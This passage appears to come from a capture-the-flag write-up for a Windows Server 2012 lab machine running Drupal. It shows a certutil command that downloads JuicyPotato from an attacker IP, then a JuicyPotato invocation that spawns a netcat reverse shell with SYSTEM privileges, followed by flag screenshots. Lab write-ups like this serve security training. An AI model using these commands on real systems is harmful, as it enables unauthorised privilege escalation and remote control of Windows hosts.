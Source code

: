 >https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter


### Upload JuicyPotato Binary

Again make sure you have Juicy potato x64 version downloaded
```cmd
certutil.exe -urlcache -split -f http://10.10.14.9:80/JuicyPotato.exe JuicyPotato.exe 
```
In another terminal start another listener again at 443 or any according to your wish.
In the same iusr shell just run this:

```cmd
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.14.9 443" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
And then you will see the following. Check your second listener now and you have SYSTEM Privileges !

![System Privileges](./images/root_shell.png)

## Flags

***User Flag***

![User Flag](./images/userflag.png)

***Root Flag***

![Root Flag](./images/rootflag.png)
